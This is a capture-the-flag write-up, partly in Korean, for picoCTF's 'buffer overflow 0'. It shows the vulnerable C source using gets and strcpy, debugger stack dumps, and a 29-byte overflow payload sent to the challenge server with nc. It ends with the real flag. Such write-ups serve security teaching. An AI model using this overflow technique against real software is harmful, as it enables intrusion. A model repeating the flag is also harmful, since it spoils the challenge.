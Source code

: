 # [buffer overflow 0](https://play.picoctf.org/practice/challenge/257?category=6&originalEvent=70&page=1)
<br />

**Discription:**
> Let's start off simple, can you overflow the correct buffer?
<br />

**Source Code:**
```c
#include <stdio.h>
#include <stdlib.h>
#include <string.h>
#include <signal.h>

#define FLAGSIZE_MAX 64

char flag[FLAGSIZE_MAX];

void sigsegv_handler(int sig) {
  printf("%s\n", flag);
  fflush(stdout);
  exit(1);
}

void vuln(char *input){
  char buf2[16];
  strcpy(buf2, input);
}

int main(int argc, char **argv){

  FILE *f = fopen("flag.txt","r");
  if (f == NULL) {
    printf("%s %s", "Please create 'flag.txt' in this directory with your",
                    "own debugging flag.\n");
    exit(0);
  }

  fgets(flag,FLAGSIZE_MAX,f);
  signal(SIGSEGV, sigsegv_handler); // Set up signal handler

  gid_t gid = getegid();
  setresgid(gid, gid, gid);


  printf("Input: ");
  fflush(stdout);
  char buf1[100];
  gets(buf1);
  vuln(buf1);
  printf("The program will exit now\n");
  return 0;
}
```
<br />

**Binary Protections:**
```yaml
vuln: ELF 32-bit LSB executable, Intel i386, version 1 (SYSV), dynamically linked, interpreter /lib/ld-linux.so.2, BuildID[sha1]=a429aa852db1511dec3f0143d93e5b1e80e4d845, for GNU/Linux 3.2.0, not stripped

[*] '/home/kali/pico/buffer_overflow_2/vuln'
    Arch:       i386-32-little
    RELRO:      Partial RELRO
    Stack:      No canary found
    NX:         NX enabled
    PIE:        No PIE (0x8048000)
    SHSTK:      Enabled
    IBT:        Enabled
    Stripped:   No
```
<br />

> [!NOTE]
> ```bash
> $ cat flag.txt
> pico{this_is_flag}
> ```

<br />

```c
void sigsegv_handler(int sig) {
  printf("%s\n", flag);
  fflush(stdout);
  exit(1);
}
...
signal(SIGSEGV, sigsegv_handler); // Set up signal handler
```
소스코드를 보면 `SIGSEGV`가 발생하면 FLAG를 출력합니다. 

<br />

```c
void vuln(char *input){
  char buf2[16];
  strcpy(buf2, input);
}
...
  printf("Input: ");
  fflush(stdout);
  char buf1[100];
  gets(buf1);
  vuln(buf1);
  printf("The program will exit now\n");
  return 0;
}
```
gets는 `"\n"`를 만날때까지 입력을 받습니다. 이는 스택 버퍼오버플로우가 발생합니다. `vuln`은 `gets`로 입력받은 값을 복사하여 `buf2`에 저장합니다. 함수는 할 일을 다하면 `Return address(RET)`를 통해 원래 있던 곳으로 복귀합니다. 이때 `RET`이 가리키는 값이 유효하지 않을 경우, `SIGSEGV`가 발생하고 프로그램을 종료합니다.

<br />

```asm
pwndbg> b *vuln+38
Breakpoint 1 at 0x56556379
pwndbg> r
Starting program: /home/kali/pico/buf_0/vuln
[Thread debugging using libthread_db enabled]
Using host libthread_db library "/lib/x86_64-linux-gnu/libthread_db.so.1".
Input: AAAABBBBCCCC
...
pwndbg> x/32x 0xffffd130
0xffffd130:     0x41414141      0x42424242      0x43434343      0x56558f00
0xffffd140:     0x565564a0      0x56558fac      0xffffd1d8      0x56556477
0xffffd150:     0xffffd164      0x000003e8      0x000003e8      0x5655641f
0xffffd160:     0x1f8bfbff      0x41414141      0x42424242      0x43434343
0xffffd170:     0x00000000      0x00000000      0x00000000      0x00000000
0xffffd180:     0x00000000      0xffffd3eb      0x00000002      0x00000000
0xffffd190:     0x00000000      0x00000000      0x00000000      0xffffdfdd
0xffffd1a0:     0xf7fc5540      0xf7fc5000      0x00000000      0x00000000
pwndbg> x/a 0x56556477
0x56556477 <main+245>:  0x8310c483
```
`"AAAABBBBCCCC"`를 입력하고, `strcpy` 호출 직후의 스택 상태를 보겠습니다. `buf2`에는 입력 값이 복사가 되어 있는 것을 알 수 있으며, `0x56556477`는 `RET` 입니다. 따라서 버퍼를 29바이트이상 채우면 `RET`이 유효하지 않은 주소를 가리키므로, `SIGSEGV`가 발생할 것입니다.

<br />

```bash
$ ./vuln
Input: AAAAAAAAAAAAAAAAAAAAAAAAAAAAA
pico{this_is_flag}
```

<br />

**Remote:**
```bash
$ nc saturn.picoctf.net 55280
Input: AAAAAAAAAAAAAAAAAAAAAAAAAAAAA
picoCTF{ov3rfl0ws_ar3nt_that_bad_c5ca6248}
```


